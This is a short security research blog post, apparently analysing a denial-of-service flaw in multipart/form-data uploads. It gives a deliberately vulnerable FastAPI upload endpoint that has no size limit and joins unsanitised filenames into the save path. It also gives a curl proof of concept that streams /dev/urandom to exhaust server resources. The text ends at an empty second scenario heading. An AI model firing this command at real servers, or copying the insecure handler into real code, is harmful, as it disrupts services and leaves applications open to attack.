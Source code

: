 ```yaml
---
layout: post
title: Research DoS Vulnerability via multipart/form-data
date: 2024-10-30
categories: ["1-Day-Analysis", "Python"]
---
```


# Summary

I have read a vulnerability about DoS Vulnerability via multipart/form-data, so to deep understand of vulnerability i will research in the direction build code have vulnerability and poc. About DoS vulnerability, this is vulnerability will causing system disruption, with upload via multipart/data hacker will upload large file to application. System when process large file will inscrease cpu and mem causing system disruption. 

# Scenario 1: DoS via file upload

I have a code run a api for upload file with python

```
from fastapi import FastAPI, File, UploadFile, HTTPException
import uvicorn
import os

app = FastAPI()

UPLOAD_DIR = "./uploads"
os.makedirs(UPLOAD_DIR, exist_ok=True)

@app.post("/upload/")
async def upload_file(file: UploadFile = File(...)):
    # read and save file
    try:
        file_location = os.path.join(UPLOAD_DIR, file.filename)
        with open(file_location, "wb") as buffer:
            buffer.write(await file.read())
        return {"filename": file.filename}
    except Exception as e:
        raise HTTPException(status_code=500, detail="Error saving file")

if __name__ == "__main__":
    uvicorn.run(app, host="0.0.0.0", port=8000)

```

This code allow upload any file and save file to folder "uploads". There aren't any check file size so i can upload file with big size. To perform upload file, i use file with `</dev/urandom`. 

`/dev/urandom` is special file of linux, provide random data unlimited. When read '/dev/urandom' system will generate random bytes. Because this is data unlimited, so curl will continous read data and send data until server is interupted or when server cannot accept any data. 

POC: 

```
curl -X POST http://localhost:8000/upload/ -F 'file=@/dev/urandom'
```

# Scenario 2: DoS via multipart boundry

